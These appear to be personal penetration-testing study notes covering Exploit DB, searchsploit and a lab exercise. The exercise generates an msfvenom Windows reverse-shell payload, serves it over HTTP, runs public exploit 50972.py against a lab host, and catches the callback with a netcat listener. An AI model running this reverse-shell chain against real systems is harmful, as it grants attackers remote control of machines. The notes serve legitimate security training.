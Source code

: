 #### Online Exploit Resources

###### Exploit DB
![[Pasted image 20230904115611.png]]

```
The D field is a quick way we can download the exploit file.

The A field lists the vulnerable application files of respective exploits which we can download for research and testing (if available).

The V field marks whether the exploit has been verified. Exploits with the verified checkmark have been reviewed, executed, and concluded to be a functioning exploit. These are reviewed by trusted members and add further assurance that the exploit is safe and functional.

The Title field will usually give the vulnerable application name along with its respective vulnerable version and the function of the exploit.

The Type field designates the exploit as one of the following: dos, local, remote, or webapp.

The Platform field designates which kind of system(s) are affected by the exploit. This can be operating systems, hardware, or even code language services such as PHP.

The last field designates the Author of the exploit.
```


Use search thru command line:
```
firefox --search "Microsoft Edge site:exploit-db.com"
```



#### Offline Exploit Resources

```
searchsploit
```

![[Pasted image 20230904120228.png]]

![[Pasted image 20230904120253.png]]

SMB example:

![[Pasted image 20230904120321.png]]


```
nmap --script-help=clamav-exec.nse
```
#### Exploiting a Target




##### Q1:

nmap and see port 1978, also smb ports. Poke around through anon login and see mouse pointer. Look up that software in exploit db. 

Create msfvenom payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.221 LPORT=443 -f exe > reverse.exe
```

Create python simple http server:
```
python3 -m http.server
```

use exploit:
```
python3 50972.py 192.168.238.10 192.168.45.221 reverse.exe
```

Create netcat listener to catch callback:
```
nc -nvlp 443
```

